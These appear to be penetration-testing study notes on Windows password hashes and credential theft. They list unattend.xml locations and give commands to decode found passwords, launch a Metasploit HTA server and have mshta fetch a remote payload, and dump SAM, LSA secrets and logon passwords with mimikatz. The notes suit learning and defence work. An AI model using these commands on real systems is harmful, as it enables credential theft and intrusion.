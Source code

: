 ### Windows Password Hashes
LM hash process
- pass is broken into two 7 character chunks
- all chars are converted to Uppercase chunks (case insensitive)
- each chunks hashed seperately with DES
No salts.

NT Hash (>=Vista)
- doesnt split password in 2 chunks
- uses MD4
- case sensitive
- allows use of symbols and unicode characters

#### password hunting in config files
the unattended windows setup utlity is used to automate mass installation/deployment of windows on systems. - It utilizes config files that contain specific configurations and user account credentials, specifically admin account pass.

- a common mistake is that they leave credentials behind forgetfully in unattended files 
- LOCATIONS :-
```txt
> C:\\Windows\Panther\Unattend.xml
> C:\\Windows\Panther\Autounattend.xml
- passwords found here may be b64 encoded.
```

Searching for it 
```bash
> search -f "unattend.xml"
> cd \Windows\Panther\

FIND WITH POWERUP
> Import-Module PowerUp.ps1
> Invoke-PrivescAudit

$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

> runas.exe /user:administrator cmd
> msfconsole -q
> use exploit/windows/misc/hta_server
> mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
```

### dumping hashes
```bash
as always if you are administrator migrate to a process with higher privs especially the "lsass.exe" process 

> pgrep lsass
> migrate $PID

> load kiwi
> creds_all
> lsa_dump_sam
> lsa_dump_ secrets

> mimikatz.exe "privilege::debug lsadump::sam exit"
TO DUMP LSA SECRETS USE
> lsadump::secrets

when logon passwords are stored in cleartexts, thats when you use 
> sekurlsa::logonpasswords
```
